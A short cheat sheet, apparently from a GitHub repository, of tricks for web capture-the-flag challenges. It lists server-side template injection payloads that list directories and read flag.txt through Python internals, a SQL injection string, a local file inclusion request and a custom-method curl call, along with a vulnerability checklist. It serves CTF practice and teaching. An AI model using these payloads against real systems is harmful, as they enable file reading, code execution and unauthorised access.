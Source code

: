 ## Useful things to try in web ctf challenges
---

### To check the flag file location
```py
submit?name={{request.application.__globals__.__builtins__.__import__(%27os%27).listdir()}}
```

## To read the vulnerability
```py
submit?name={{%27abc%27.__class__.__base__.__subclasses__()[92].__subclasses__()[0].__subclasses__()[0](%27flag.txt%27).read()}}
```

## SQL INJECTION
```python
'OR'1'='1
```

## Get the flag
```python
$ curl -I https://r3qu35t-m3-fl4g.vishwactf.com -X FLAG
```

change the cookie and refresh the website it works in some cases. try observing robots.txt file of a webpage.

## Hex to ascii
```python
\x47\x75\x65\x73\x73\x20\x54\x68\x65\x20\x46\x6C\x61\x67\x73\x68\x63\x74\x66\x7B\x66\x6C\x61\x67\x7D","\x59\x6F\x75\x20\x67\x75\x65\x73\x73\x65\x64\x20\x72\x69\x67\x68\x74\x2E..
convert to hex using ascii will give the flag.
```

## Search for flag.txt in php files
```php
/index.php?file=flag.txt
Search lfi filter cheatsheet
```

### php
```html
https://www.php.net/manual/en/wrappers.glob.php
```

### What else to look for
```python
1. buggy phps
2. sensitive data exposure
3. Injection attacks (SQL)
4. Cross site scripting (XSS)
5. Poor coding or site maintainence (cookies or source code or bin files or even robots.txt)
6. Broken authentication
7. Inclusion vulnerabilities
8. version control artifacts
```


